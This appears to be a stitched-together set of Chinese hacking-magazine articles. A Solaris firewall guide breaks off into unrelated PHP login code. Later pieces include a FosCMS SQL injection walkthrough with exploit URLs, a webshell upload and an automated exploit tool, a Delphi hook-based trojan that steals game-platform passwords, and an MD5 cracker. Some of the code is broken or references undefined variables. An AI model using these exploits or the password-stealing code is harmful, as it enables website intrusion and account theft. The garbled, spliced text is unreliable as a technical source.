不久前笔者 alex 也面临着这样的难题：通过漏洞扫描器对某运营商的多台 Solaris 10 服务器进行安全检查，结果发现大量 RPC 类安全缺陷。正常情况下最有效的解决办法是“直接停用并禁用相应服务”，但经过与应用平台开发／维护商进行磋商后确认，若直接停用并禁用相关 RPC 服务将导致应用平台业务中断。因此最佳的加固办法是：通过操作系统层的网络防火墙“关闭”RPC 服务所开启的传输层端口。

“工欲善其事，必先利其器”，首先介绍一下本次加固所涉及到的防火墙工具——IPFilter。

IPFilter（IPF）是由 Darren Reed 编写的内核级网络防火墙，目前已被移植到 FreeBSD、NetBSD、OpenBSD、HP/UX 以及 SunOS/Solaris 操作系统上。在 FreeBSD 中若要使用 IPFilter，必须在编译内核时加入相应编译项。但在 Solaris 10 中，IPFilter 默认已安装，并以服务（svc）的方式存在。

本次加固操作的具体环境为“SunOS solaris10 5.10 Generic_118844-26 i86pc i386 i86pc”。在进行加固配置前首先要了解一下 IPFilter 在 Solaris 10 中的关键配置点（包括配置文件、系统服务以及执行程序），如图 1。下面看看具体操作吧。在第一次激活 IPFilter 时必须先编辑 `/etc/ipf/pfil.ap`，去除“需要进行过滤的网络接口”行首的注释号。如：

本机的 pcn0 为“需要进行过滤”的网络接口，则相应的 `/etc/ipf/pfil.ap` 配置文件内容应为：

```text
## IP Filter pfil autopush setup
#
## See the autopush(1M) manpage for more information.
#
## Format of the entries in this file is:
#
#major  minor lastminor modules

pcn    -1    0    pfil
```

然后开启 IPFilter 服务，具体操作如下：

```bash
-bash-3.00# svcadm enable svc:/network/IPFilter:default
```

注：在运行上述命令后，正常情况下当我们通过 `svcs -a|grep IPFilter` 查看服务状态时，应该返回“online”状态。如果事与愿违的话，大多数故障原因是由于 `/etc/ipf/ipf.conf` 文件中的规则存在问题，导致 IPFilter 启动失败。具体排查方式可以通过监视 `/var/adm/messages` 来确认。

在成功启动 IPFilter 服务后，我们可以通过 ipfstat 命令来查看 IPFilter 规则内存表所加载的规则内容，若是首次启动 IPFilter 的话，默认将输出以下结果：

```bash
-bash-3.00# ipfstat -io
empty list for IPFilter(out)
empty list for IPFilter(in)
```

| 配置文件/服务/程序 | 说明 |
|---|---|
| /etc/ipf/pfil.ap | 包过滤端口列表配置文件 |
| /etc/ipf/ipf.conf | 默认过滤规则配置文件 |
| svc:/network/pfil:default | 启用包过滤功能 |
| svc:/network/ipfilter:default | IPFilter 主服务 |
| /usr/sbin/ipf | IPFilter 主程序 |
| /usr/sbin/ipfstat | 用于查看 IPFilter 规则加载情况 |
| /usr/sbin/ipmon | 查看 IPFilter 运行日志情况 |


此时我们需要加入相应的 IPFilter 规则。针对 IPFilter 规则的编写语法比较简单，常用语法格式如下：

```php
<?php
error_reporting(0);
include("config.php");
mysql_connect($dbhost,$dbuser,$dbpass);
mysql_select_db($dbname);
mysql_query("set names 'gb2312'"); // 把查询字段以 gb2312 形式发送，这样 MYSQL 才能识别。
$U_name=trim($_POST['User_name']);
$U_password=md5(md5(trim($_POST['User_password'])));

if ($_POST['submit']){
    // 获取客户端 IP 地址并查询 badip 表中的屏蔽 IP 地址，如果超过三次记录就弹出警告并退出。
    $badip = $_SERVER['REMOTE_ADDR']; // 获取客户端 IP 地址
    $nona = "select * from badipaddress where badip='$badip'";
    $ret = mysql_query($nona);
    $rot = mysql_num_rows($ret);
    if($rot>=3)
    {
        echo "<font face='MS Gothic' size='2'>由于输入密码错误过多，你的IP已被屏蔽。请联系服务器管理员</font><br>";
        exit;
    }

    if ($U_name && $U_password){
        $sql = "SELECT * FROM users WHERE username='$U_name' and password='$U_password'";
        $res = mysql_query($sql);
        $rows = mysql_num_rows($res);
        // 如果验证账号密码成功，则跳转到后台页面并加入 session 值
        if($rows){
            $is_validate=$U_name;
            //session_register("is_validate");PHP 官方不推荐使用这种方式注册 session 值
            $_SESSION['is_validate'] = $is_validate;
            session_id=session_id();
            echo "<script language=Javascript>window.location = 'main.php'</script>";
            //header("Location:main.php");
        } else {
            $badip = $_SERVER['REMOTE_ADDR']; // 输入的账号密码错误时，就将客户端 IP 插入 badip 表中。
            $evont = "insert into badipaddress(badip)values('$badip')";
            $rer = mysql_query($evont);
            echo "<script language=Javascript>alert('用户名密码错误！')</script>";
        }
    }
?>
```

这里只给出了 PHP 代码部分，HTML 表单提交账号密码部分没有贴出来，不知道大家看出什么名堂来没有？要正确地使用还得在 MySQL 里先建两个表，分别命名为 users（用来存管理员用户名和密码）和 badipaddress 表（用来记录屏蔽的 IP 地址）。

现在我们打开开始分析，首先是通过 `$U_name=trim($_POST['User_name']);` 和 `$U_password=md5(md5(trim($_POST['User_password'])));` 这两个变量来获取账号和密码。为了安全，我用了 md5 双重加密法，当然注册文件也得用 md5 双重加密插入表中。

当密码正确就能正常登录并加入 session 值，如果密码错误它会做什么呢？很简单，密码错误的话就把客户端的 IP 地址插入 badipaddress 表中并弹出警告“用户名密码有误”。当连续三次错误之后，页面就会出现提示“由于输入密码错误过多，你的 IP 已被屏蔽，请联系服务器管理员”，并且加了 exit 函数退出，下面的用户名密码验证语句将无法执行了。

大家想想，这样的验证会产生什么样的结果？一般情况下，我们找到管理员的后台之后总会用一些可能的弱口令去尝试登录，当三次错误之后你的 IP 地址就被屏蔽了。

其实完全可以把提示也写成“密码错误”，这样的话即使第四次输入的用户名密码正确，它也会提示“密码错误”，这时你有没有想过并不是因为用户名密码的问题，而是你的 IP 地址已经被屏蔽了呢？

好了，就说这么多，只是一些 IP 相关的问题，不是全部。如果是全部的话那就比较长了，比如 IP 隐藏入侵踪迹等等。另外，这些代码都是本人写的，难免有疏忽的地方，还请读者自行判别，但这些代码在自己搭建的 PHP 环境中都测试通过了。

【文字中所涉及的 IP 屏蔽登录代码.php 和 IP 指定挂马代码.php 已收录在本期光盘】

> 编辑点评：我以前写过指定 IP 挂马的 asp 代码，这是 php 版的，大家可以自己修改测试一下，很简单的小程序。

## VB简单编写：手机控制电脑

> 张宇浩：

在这期很高兴看到了之前发布的《打造自己的杀毒软件》，猛搞而来的弹性；而且质量还不错，虽然使用的技术有点落后。作者在结尾也提出了问题：坛中高手、大虾们一起来探讨破案。

图 SRat

- 从本文您可以学到：
- 了解 WAP 的浏览原理
- 使用 VB 实现手机 GPRS 远程控制

闲来无事，试着在手机 WAP 浏览器中输入我的外网 IP（IP 地址可以到 www.ip138.com 上查询，内网用户要做端口映射），结果发现我的防火墙报警了，如图1所示。

我想是不是可以利用这个功能，来通过手机控制电脑呢？

这是我截取的手机浏览器所发送的一部分请求消息，如图2所示。

通过 `GET / HTTP/1.1 Host: 61.*.*.*` 可以了解到，如果我们请求手机上的 `hi.htm` 这个文件，也就是在手机浏览器中输入 `http://61.*.*.*/hi.htm`，那么手机浏览器就会发出 `GET /hi.htm HTTP/1.1 Host: 61.*.*.*` 这个请求消息。手机没法截图，我用在线 WAP 浏览器代替了，如图3所示。

只要提取这个 `hi` 就可以实现远程操作。如果你想的话，可以编写更多的指令，进行更多的操作。限于篇幅，我就说下重点。

首先，我们启动 VB6，新建一个工程，加入 Winsock 控件，应用 Listen 方法监听 80 端口。如果监听成功，有连接请求的话，就会触发 `Winsock1_ConnectionRequest` 事件，如图4所示。

代码如下：

```vb
Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)
If Winsock1.State <> sckClosed Then
    Winsock1.Close
End If                    ' 如果连接没有断开，先断开连接
Winsock1.Accept (requestID)    ' 同意并建立连接
End Sub
```

连接成功后，WAP 浏览器发来请求，就会触发 `Winsock1_DataArrival` 事件，这时就可以提取指令并执行了，代码如下：

```vb
Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
Dim msg As String
Dim xx As String
Winsock1.GetData msg
xx = Trim(Mid(msg, InStr(msg, "GET /"), InStr(msg, ".htm") - InStr(msg, "GET /"))) '获取指令的内容
Text1.Text = xx '输出指令到文本框控件上
Select Case Text1.Text
Case "GET /hi"
    MsgBox "ok!" '执行指令
    Call ok
'返回执行的情况
'在这里，你可加入更多的指令。
End Select
End Sub
```

执行结果如图5所示。

利用 GPRS 来控制电脑就是速度不快且不稳定，不知是我手机的原因，还是网络的问题（偶的手机才400来块，能上网就不错了，汗！）。

为了反馈指令的执行情况，我编写了如下代码：

```vb
Function ok()
    Dim strh As String
    Dim str As String
    str = "ok!"
    If Winsock1.State = sckConnected Then
        strh = "HTTP/1.0 200 OK" + vbCrLf
        strh = strh + "Server: GPRS by ShaB" + vbCrLf
        strh = strh + "Connection: Keep-Alive" + vbCrLf
        strh = strh + "Content-Type: text/html" + vbCrLf
        strh = strh + "Content_Length: " + CStr(Len(str) + 1) + vbCrLf
        strh = strh + "" + vbCrLf
        strh = strh + str
        Debug.Print strh
        Winsock1.SendData strh
    End If
End Function
```

写到这里我要发表牢骚了，原本打算返回一个 WAP 网页而不是一个“ok!”，通过 WAP 网页来执行各种指令的，结果却发现我的手机浏览器无法获取网页，只是显示不支持的网页类型，用的网页语言是 WML，希望有人能帮忙解决一下。由于我是移动用户，为了防止手机上网不稳定的情况发生，还利用了飞信接口进行短信通知。

其实，以上的这些东西都很简单的，只要稍懂 VB 就可以了。这仅仅是一个思路，大家可以尽情地发挥，编写出更多类似功能的程序来，例如：迅雷下载完成后短信通知，然后再进行远程关机。当然前提你要是移动用户，不是移动的话，可能就要花钱了。我算了一下每执行一次指令手机所用的流量不会超过 1KB，也就是说不到1分钱，还是很实在的。

> 编辑点评：利用手机进行远程控制，这个已经不是什么新技术了，3G 时代会非常普遍。不过现在用 GPRS 的用户还是很多，所以本文还是挺实用的。小编我也写了一个，什么时候放出来大家一起共享，呵呵！

## 风讯4.0漏洞发现与利用工具的编写

- 了解漏洞原理及方法
- 利用程序实现漏洞利用工具

最近在 NOHACK 论坛看见风讯又爆了个漏洞，于是就按照网上的方法 GOOGLE 了一下关键字：

`inurl:User/Reg_service.asp`

由于网上直接公布了查用户名的语句，便使我找了个网站构造语句：

`http://www.XXXX.cn/user/SetNextOptions.asp?sType=1&EquValue=aaaa&SelectName=aaa&ReqSql=select+1,admin_name,3,4,5,6,7,8++from+FS_MF_Admin`

如图1所示，直接爆出了用户名，可惜是存在列表里的。后来无意间查看了下网页源码，啊啊，直接显示出来了。然后是爆用户密码的语句：

`http://www.XXXX.cn/user/SetNextOptions.asp?sType=1&EquValue=aaaa&SelectName=aaa&ReqSql=select+1,admin_pass_word,3,4,5,6,7,8++from+FS_MF_Admin`

如图2所示。

然后是查看网页源码，得到 MD5 加密的值。去 XMD5 里查出了密码明文，如图3所示。

但论坛上没公布网站后台，直接在网站后面加了 `admin`，爆出后台：

`http://www.xxxxx.cn/Admin/login.asp`

接着输入用户名密码登录后台，如图4所示。

由于网上没有介绍如何得到 webshell，于是在进入后台后东找西找，发现了得到 webshell 的方法。点击模块，创建一个 asa 的目录，返回后双击目录，然后是导入后缀为 jpg 的小马。因为事先抓过包，所以直接可以得到 webshell 路径 `http://www.xxxxx.cn/Templates/a.asa/diy.jpg`，如图5所示。

但这样手工不停添加语句太麻烦，于是抄起 VB 编写利用工具。由于事先知道了后台地址以及利用语句，只需要用户输入网站地址就行了。

程序控件的布局如图6所示。首先添加个 WebBrowser 控件。主要代码如下（重复的有删减）：

```vb
Private Sub Command1_Click()
'探用户名
WebBrowser1.Navigate Text1.Text + "/user/SetNextOptions.asp?sType=1&EquValue=aaaa&SelectName=aaa&ReqSql=select+1,admin_name,3,4,5,6,7,8++from+FS_MF_Admin"
End Sub

Private Sub Command6_Click()
'查看网页源码并赋值给 text3
Text3.Text = WebBrowser1.Document.documentElement.outerHTML
End Sub

Private Sub Command3_Click()
'这是查壳获得 webshell 的地址，其中的 a.asa 与 diy.jpg 根据实际情况更改
Text2.Text = Text1.Text + "/Templates/a.asa/diy.jpg"
End Sub

Private Sub Command7_Click()
'访问后台
WebBrowser1.Navigate Text1.Text + "/Admin/login.asp"
End Sub

Private Sub Command4_Click()
'这是 GOOGLE 关键字的地址
WebBrowser1.Navigate "http://www.google.cn/search?hl=zh-CN&source=hp&q=inurl%3AUser%2FReg_service.asp&btnG=Google+%E6%90%9C%E7%B4%A2&aq=f&oq="
End Sub

Private Sub Command5_Click()
'MD5 解密的网站
WebBrowser1.Navigate "www.xmd5.org"
End Sub
```

这个程序由于在漏洞发布的第一时间编写完成，所以说得到的 webshell 比较多，以后读者发现一个网站系统爆出漏洞的时候，可以照着本程序的结构快速地写出漏洞利用程序。有什么不懂可以到论坛找我，ID 是 yldcb。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘中）

**编辑点评：**通过网上公布的方式第一时间编写出利用工具，减少手工重复劳动，降低手工执行过程的出错概率，不失为一个好方法。

# 网络聊天木马开发全纪录

# WM_GETTEXT 读取浩方密码

从本文您可以学到：WM_GETTEXT 对 Windows 标准控件的密码截取。

网络虚拟财产的安全问题日益突出，而骇客们常常使用一些手段来获取网游账号及密码。为了揭露网游盗号的基本原理，我将给大家演示黑客是如何通过编程实现密码的截取与发送的。更希望广大网民提高安全意识，免受盗号危害。

首先通过分析可知，一个完整的木马产品包括密码截取、密码发送和木马生成等功能。针对如上功能，我们来逐一揭示如何编程实现。这里选择 Delphi 作为编程语言。

首先是密码的截取，密码截取的方法有很多，常见的有发送 WM_GETTEXT 消息、键盘击键记录、内存读取、封包截获等。有针对性的比如鼠标点击截图、窗体伪造钓鱼等。

本系列教程主要讲解 WM_GETTEXT 消息、键盘击键记录、内存读取密码以及封包截获的基本原理及实现。这些方法是比较常见的，也是危害比较广泛的。分析上述各种方法，WM_GETTEXT 消息的方法主要适用于对 Windows 标准控件的密码截取，键盘击键记录则是针对键盘敲击的记录，适合固定键盘输入的情况，内存读取密码则应用比较广泛，适合大多数密码截取的情况，并且在外挂技术中也经常用到，封包截获则应用不是很广泛，主要是因为截获的封包可能是加密过的，需要对加密机制进行解密才能获得密码。

今天，我们以浩方电竞平台为例，给大家演示发送 WM_GETTEXT 消息截取密码的全部过程。在以后的章节里将逐一讲解其他密码截取方法和密码发送及木马生成技术。

## 窗口分析

首先分析浩方电竞平台的登录窗体。使用 Spy++ 对窗体进行分析，得到主窗口类名是 `#32770`（对话框），窗口标题是“浩方电竞平台”，如图1所示。

然后再查看账号和密码输入框的信息。账号输入框的类名是

## 密码截取


图1 主窗口的类名和标题

图2 账号输入框的类名


图3 密码输入框的类名

图4 成功截取账号、密码

但是在什么时候进行密码截取呢？如果过早截取，则可能用户还没有输入信息或输入的信息不全；如果截取晚了，则可能登录窗口已经不存在了，这都会导致无法截获取到账号和密码。因此需要使用 Hook 技术来实现对鼠标和键盘的监听，也就是说在鼠标点击或键盘敲回车时才进行截取。

首先声明键盘和鼠标钩子：

```pascal
var
  KeyHook,
  MouseHook: HHook;
```

ComboBox，密码输入框的类名是 Edit，如图2及图3所示。

我们可以看到，浩方电竞平台登录窗口的控件均是 Windows 标准控件。因此采用发送 WM_GETTEXT 消息的方法是最简单的。

## 编程实现

首先实现账号密码截取功能。为了便于测试，我们将截取的密码打印在屏幕左上角。代码如下：

```pascal
procedure GetPassWord;
var
  buffer: array[0..50] of char;
  Window, Number, PassWord: Longint;
  V: string;
  DC: HDC;
begin
  V := '';
  // 当前激活窗体，获得当前窗口句柄
  Window := GetForegroundWindow;
  // 约束条件，判断主窗口标题是否为“浩方电竞平台”
  if FindWindow('#32770', '浩方电竞平台') = 0 then exit;
  // 账号句柄、密码句柄
  Number := FindWindowEx(Window, 0, 'ComboBox', nil);
  if Number = 0 then exit;
  PassWord := FindWindowEx(Window, 0, 'Edit', nil);
  if PassWord = 0 then exit;
  // 取内容
  SendMessage(Number, $000D, 50, Integer(@buffer));
  V := 'number: ' + string(buffer);
  SendMessage(PassWord, $000D, 50, Integer(@buffer));
  V := V + '  password: ' + string(buffer);
  // 写到屏幕上
  DC := GetDC(0);
  TextOut(DC, 100, 100, PChar(V), Length(V));
  ReleaseDC(0, DC);
end;
```

可以看出截取信息的代码十分简单，其原理就是使用 SendMessage 函数向子窗口发送 WM_GETTEXT 消息，$000D 就是 WM_GETTEXT 的消息码。然后将消息返回的信息存放到 buffer 中，最后将其打印出来。

然后创建钩子回调函数，实现对键盘按回车或鼠标左击事件的监控，如果事件发生则马上进行密码截取。代码如下：

```pascal
// 键盘钩子回调函数
function HookKey(iCode: Integer; wParam: WPARAM; lParam: LPARAM): LRESULT; stdcall;
begin
  // 回车 // 键盘按键按下消息
  if (wParam = 13) and (((lParam shr 31) and 1) = 0) then GetPassWord;
  Result := CallNextHookEx(KeyHook, iCode, wParam, lParam);
end;

// 鼠标钩子回调函数
function HookMouse(iCode: Integer; wParam: WPARAM; lParam: LPARAM): LRESULT; stdcall; export;
begin
  // 鼠标左键按下消息
  if wParam = $0201 then GetPassWord;
  Result := CallNextHookEx(MouseHook, iCode, wParam, lParam);
end;
```

回调函数写好后，就要写钩子挂起函数和解绑函数了。代码如下：

```pascal
// 挂钩
procedure HookOn;
begin
  KeyHook := SetWindowsHookEx(WH_KEYBOARD, @HookKey, HInstance, 0);
  MouseHook := SetWindowsHookEx(WH_MOUSE, @HookMouse, HInstance, 0);
end;

// 脱钩
procedure HookOff;
begin
  UnHookWindowsHookEx(KeyHook);
  UnHookWindowsHookEx(MouseHook);
end;
```

有了上述代码，就可以实现账号和密码的完美截取了。将上述代码编译成 DLL 文件，别忘了导出 HookOn、HookOff 两个函数，以便后面调用。

```pascal
// 导出函数
exports
  HookOn, HookOff;
```

编译成功后，钩子 DLL 就制作完了。下面只要用一个程序来调用钩子 DLL 就好了。这就简单多了，代码如下：

```pascal
program Main;
uses windows;
var
  Msg: TMsg;

procedure HookOn; stdcall; external 'hfhook.dll';
procedure HookOff; stdcall; external 'hfhook.dll';

// 主程序
begin
  HookOn;
  while GetMessage(Msg, 0, 0, 0) do ;
  HookOff;
end.
```

上述代码就是调用钩子 DLL 中的两个导出函数，并循环获取消息。编译好 CallHook.exe 和 hfhook.dll 后，将两个文件放到同一个文件夹下，运行测试一下，检验一下我们的劳动成果。先运行 CallHook.exe，然后运行浩方电竞平台客户端进行登录。在点击登录或按回车后，桌面的左上角就会打印出账号和密码，如图4所示。

本次教程基本完成了密码的截取，如有不够完美的地方大家可以自己完善。下次将给大家介绍键盘记录截取密码的原理及实现方法。

（文章中所涉及的相关代码及工具都已经收录在本期光盘中）

> **编辑点评：** 古话说得好“知彼知己者”方可“百战不殆”，本文的作者就是出于此目的。如果你是登录窗口的开发者，看了这篇文章，我想你一定会在下次做安全代码的审核时，知道在什么地方会有陷阱。

## 编写MD5Decoder

© CCOZ

从本文您可以学到：

- 利用社工编写字典进行爆破

## 写在最前

在学黑的道路上，许多人趋之若鹜地学习编程，许多初学者对一些经典或者看似高深的东西心生崇敬，甚至畏惧，不敢涉足。比如 MD5 加密算法、跑彩虹表的软件 Ophcrack，或者看似高深的自带数据库及字典的软件，如图1、图2所示。


图1 Ophcrack界面

其实无论是爆破密码，还是导入字典，都非难事，编写这类软件需要的不过是一点点巧思和一点点勇气罢了。世上无难事，只怕有心人。


图2 附带数据库的啊D

## 前瞻

1991年 MD5 加密算法横空出世，这种高效且不可逆的先进加密算法迅速获得人们认可，应用于各类软件的密码验证、文件验证等等。直到今天，MD5 仍然是较为先进的加密算法。Web2.0 时代到来，各种网站也纷纷应用该算法作为密码验证和加密算法，MD5 愈加大放异彩。

虽然在 2004 年 8 月 17 日的美国加州圣巴巴拉国际密码学会议（Crypto'2004）上，来自中国的王小云教授做了破解 MD5、HAVAL-128、MD4 和 RIPEMD 算法的演示，但是现在对于广大 hacker 们来说，破解 MD5 密码的途径仍然是网站查询（cmd5.com 和 xmd5.com 等）和跑彩虹表（Rainbow Table）。

- 网站查询有很多需要收费，数据库的数据也并不是十全十美；而跑彩虹表则需要 TB 级的硬盘以及动辄几小时或几天甚至几个月的时间。事实上，有时我们并不需要跑彩虹表。人们设置密码通常会和自己的个人信息挂钩，在密码中加入随机数或者符号的人很少。所以，在通过社工了解了密码拥有者的个人信息后，制作一个字典文件，把相关信息的所有排列组合搜集在内，正确密码包括在这个字典内的几率就很大。

显然，这个字典比彩虹表要简单得多，容量小且针对性也很强。今天我带来的就是编写这样一个利用字典文件爆破 MD5 密码的软件。

## 设计程序

我设计的程序界面如图3所示，在窗体外面还有一个 Combo 控件，用于盛放字典文件。

这个软件的思路是：start 按钮的 Click 事件被激活时，验证字典文件 dic.txt 是否存在。存在则过滤空格，将字典里的每行数据作为 Combo1 的一个 Item，然后利用 Len 函数获取 code 文本框的输入数据长度。当其不等于 16 或者 32 时，密文明显非 MD5 密文；等于时，程序将继续运行下去，利用 For...Next 循环把 Combo 中的每一个 Item 进行 MD5 加密操作并使用 LCase 函数进行小写转换，然后用 InStr 函数与 code 文本框进行对比。


图3 程序界面

相同则表示密码正确，跳出循环；不相同则继续循环。到最后一个 Item 若还没有匹配成功，则破解失败。

Stop 按钮的实现方法是：定义 bool 型变量 nowstop，值为 FALSE，当 stop 按钮的 Click 事件被激活时，nowstop 值为 True，变量在每一个循环过程中验证，验证值为 True 则跳出循环。

程序总体思路的流程图如图4所示，有错误请大家指正。


## 编写程序

下面我们开始编写程序。由于版面有限，MD5 的加密算法不在文章中予以体现，大家去源码中自行查阅。

首先说明，32 位 MD5 的加密函数为 DigestStrToHexStr(txtgoal.Text)，16 位的 MD5 只是取 32 位的中间 16 位：Mid(DigestStrToHexStr(Combo1.List(I-1)), 9, 16)，后面会用到。

Form_Load() 事件激活时定义并赋值 nowstop 变量：

```vb
Dim nowstop As Boolean
nowstop = False
```

start 按钮的 Click 事件激活时代码如下：

```vb
Private Sub start_Click()
' 清空进度栏
process.Text = ""
result.Text = ""

' 字典文件的调用
Dim fso
Set fso = CreateObject("scripting.filesystemobject")
If Not fso.fileexists(App.Path & "\dic.txt") Then
    MsgBox "找不到字典文件，程序即将退出！", vbCritical, "错误——MD5Decoder"
    End
End If

Dim dictionary, diclist    ' 声明 fso 对象，dictionary 为字典数据，diclist 为单行读出的一条字典数据
Set fso = CreateObject("scripting.filesystemobject")    ' 创建 fso 对象
Set dictionary = fso.opentextfile(App.Path & "\dic.txt")    ' 利用 opentextfile 打开字典文件
Do While dictionary.AtEndOfStream <> True    ' 当前循环 dictionary 中的所有字典数据为行加入 combo1 下拉框中
    diclist = dictionary.readline    ' diclist 是其中一条记录
    If Not IsNull(diclist) Then    ' 忽略掉空格
        Combo1.AddItem diclist    ' 将记录 diclist 加入下拉框 combo1 中
    End If
Loop

' 验证密文位数
Dim md5code As String
Dim bit As Integer
md5code = code.Text
If Len(md5code) = 32 Then
    process.Text = process.Text & "密文是：" & md5code & vbCrLf & "是32位MD5密文" & vbCrLf & "------------------------------"
    result.Text = result.Text & "密文是" & md5code & vbCrLf & "是32位MD5密文" & vbCrLf & "------------------------------"
    bit = 32
ElseIf Len(md5code) = 16 Then
    process.Text = process.Text & "密文是" & md5code & vbCrLf & "是16位MD5密文" & vbCrLf & "------------------------------"
    result.Text = result.Text & "密文是" & md5code & vbCrLf & "是16位MD5密文" & vbCrLf & "------------------------------"
    bit = 16
Else
    MsgBox "密文非MD5密文！", vbCritical, "错误——MD5Decoder"
End If

' 开始验证
Dim ok As Boolean
For I = 1 To Combo1.ListCount
    DoEvents
    If nowstop = True Then
        Exit For
    End If
    If bit = 32 Then
        If InStr(LCase(code.Text), LCase(DigestStrToHexStr(Combo1.List(I - 1)))) Then
            process.Text = process.Text + "验证 " + Combo1.List(I - 1) + " 中 匹配成功！" & vbCrLf
            result.Text = result.Text & vbCrLf & "爆破成功！！！爆破结果：" & Combo1.List(I - 1) & "!!!" & vbCrLf & "Congratulations!"
            ok = True
            Exit For
        Else
            process.Text = process.Text + "验证 " + Combo1.List(I - 1) + " 中 匹配失败！" & vbCrLf
            ok = False
        End If
    ElseIf bit = 16 Then
        If InStr(LCase(code.Text), LCase(Mid(DigestStrToHexStr(Combo1.List(I - 1)), 9, 16))) Then
            process.Text = process.Text + "验证 " + Combo1.List(I - 1) + " 中 匹配成功！" & vbCrLf
            result.Text = result.Text & vbCrLf & "爆破成功！！！爆破结果：" & Combo1.List(I - 1) & "!!!" & vbCrLf & "Congratulations!"
            ok = True
            Exit For
        Else
            process.Text = process.Text + "验证 " + Combo1.List(I - 1) + " 中 匹配失败！" & vbCrLf
            ok = False
        End If
    End If
Next I

If ok = False Then
    result.Text = result.Text & vbCrLf & "爆破失败……" & vbCrLf & "Sorry!"
End If
End Sub
```

导入字典等关键代码的注释已经比较详细，相信大家能够看懂。代码中并没有很高深的东西，有的只是一点点的巧妙思维——将字典文件去空格加入 Combo 控件实现字典导入。有时候，各种高深的函数和知识并不是最重要的，技巧和优秀的算法才是最主要的因素。Stop 按钮的 Click 事件无非就是一个给 nowstop 重赋值的过程，代码极其简单，就不给出了。

此时，程序已经完成，运行结果如图5所示，这里是以 5555 的 MD5 密码为例，成功爆破。

### 总结

Ophcrack 等跑彩虹表软件的原理与本文所述大致相同，不过 Ophcrack 是在生成字典时即进行 MD5 加密工作，其字典格式为 hash::XXX 格式，大大减少了跑表时间。而且跑彩虹表的软件多采用多线程，效率高于本软件很多。另外，一些软件拥有自己独特的字典压缩算法，能够有效地提高爆破效率，大家可以找一些这方面的经典作品作为蓝本来改进本软件。最后感谢 Hell 对本文成文支持提供的帮助。

**编辑点评：**

本文中省略了 MD5 的加密算法，其实还是很有必要学习一下的，即使不能完全理解，也可以开拓自己的视野，领略一下国际通用的加密算法是一个什么样的水平。

# 病毒扫描工具的简易制作

从本文您可以学到：

- 了解第一代病毒扫描技术
- 利用特征码技术实现简单的病毒扫描

你是否尝试过自己定义杀软的病毒库？这样一来攻击者也就无法给病毒做免杀了。今天我们不但要定义自己的病毒库，而且要做自己的“杀软”，很刺激吧？马上进入主题。

一日我不小心运行了一款名为 DarkRat 木马的服务端样本，微点（主动防御软件）成功将其拦截并删除了病毒。我怀疑微点删除得并不彻底，便从 DarkRat 样本上截取了一段特征码放入自定义的病毒库扫描，结果如图1所示。


效果还不错吧？下面来看看这款扫描程序是如何制作的。

## 原理：第一代病毒扫描技术

本程序采用了第一代病毒扫描技术中的通配符扫描技术。举个例子，假如病毒库中有这么一段特征码：

```text
04 ?? 00 %5-3A ?? B2 8B ?1
```

这段特征码可翻译为：尝试匹配 04，找到继续，否则退出；跳过该字节，尝试匹配 00，找到继续，否则退出；在接下来的 5 个字节中尝试寻找 3A ?? B2，找到继续，否则退出；尝试匹配 8B，找到继续，否则退出；忽略前半个字节，后半个字节为 1，找到则报毒，否则退出。例如它可以匹配：04 E3 00 72 3A 6E B2 1A 8B 71。

问号可以匹配任意半个字节，`%n-str` 是指在接下来的 n 个字节内匹配字符串 str，n 为十进制，如果你更习惯用 16 进制的话请修改源代码。

实现以上过程的 Delphi 代码如下：

```delphi
// F_code 是文件中的代码，V_code 是特征码
function Tform1.SearchCode(F_code, V_code: string): boolean;
var
  lenf, lenv, f, v, next: integer;
  tempstr, findstr: string;
begin
  result := false;
  // f 和 v 是字符串 F_code 和 V_code 中某个字符的位置
  f := 1;
  v := 1;
  lenf := length(F_code);
  lenv := length(V_code);
  while f < lenf do
  begin
    // 依次匹配每个字符，问号匹配任意字符（一个字符为半个字节）
    if (v_code[v] = f_code[f]) or (v_code[v] = '?') then
    begin
      // 匹配成功的话，位置分别加 1
      v := v + 1;
      f := f + 1;
      // 如果文件检测到头了而特征码还没匹配完，则认为无毒
      if v = lenv + 1 then
      begin
        result := false;
        exit;
      end;
    end
    else
    begin
      // 如果遇到“%n-str”格式的特征码
      if (v_code[v] = '%') then
      begin
        v := v + 1;
        // 读取 % 至 - 之间的内容 {n}
        while v_code[v] <> '-' do
        begin
          tempstr := tempstr + v_code[v];
          v := v + 1;
        end;
        // 将字符串转为数字，然后乘 3，因为 1 个字节是三个字符长度（包括空格），然后赋值给 next
        next := strtoint(ansireplacestr(tempstr, '_', '')) * 3;
```

```pascal
tempstr:='';
v:=v+1;
// 读取 v 至 l 之间的内容（str），然后赋值给 findstr
while v_code[v]<>'}' do
begin
  tempstr:=tempstr+v_code[v];
  v:=v+1;
end;
findstr:=AnsiReplaceStr(tempstr,'|','h');
v:=v+2;
// 递归调用，在 l_code 中 f 至 next 之间寻找字符串 findstr
if SearchCode(copy(l_code,f,next),findstr) then
begin
  // 如果匹配到特征码的末尾，则函数返回 True，说明该文件有毒
  if v=lenv+1 then
  begin
    result:=true;
    exit;
  end;
  // 跳过 next 个位置，继续匹配下面的特征码
  f:=f+next;
end
else
  v:=1;
end
else
begin
  // 如果匹配失败，特征码位置回置 1；文件字符位置增加 1
  v:=1;
  f:=f+1;
end;
end;
end;
end;
```

件），ExtMask 是需要寻找的文件扩展名（多个用分号隔开），结果存储在 FileList 中。

下面开始编写程序，首先定义几个全局变量，代码如下：

```pascal
var
  Form1: TForm1;
  TmpList: TStringList;
  V_Count: integer;
  MyStream: TMemoryStream;
  V_List: TListItem;
  ini: TIniFile;
  IsDel: Boolean;
  FileExt: string;

implementation

{$R *.dfm}

// 然后在窗体的 OnCreate 事件中进行初始化
procedure TForm1.FormCreate(Sender: TObject);
begin
  // 创建了两个对象
  TmpList:=TStringList.Create;
  MyStream:=TMemoryStream.Create;
  // 设置连接数据库的字符串
  rsMain.ConnectionString:='Provider=Microsoft.Jet.OLEDB.4.0;Data Source='+
    ExtractFilePath(Application.EXEName)+'V_code.mdb;Persist Security Info=False';
  // IsDel 说明发现病毒是否删除，FileExt 指明需要扫描的文件类型，实际上这两个变量是从配置文件中读取的
  IsDel:=TRUE;
  FileExt:='*.k;*.exe;*.dll;*.sys';
end;
```

## 设计病毒库

我也不知道用什么样的数据库作为病毒库比较好，就用熟悉的 ACCESS 吧。数据库设计如图 2 所示，保存数据库，取名为 V_code.mdb。

| 字段名称 | 类型 | 说明 |
|---|---|---|
| ID | 自动编号 |  |
| Name | 文本 | 病毒名 |
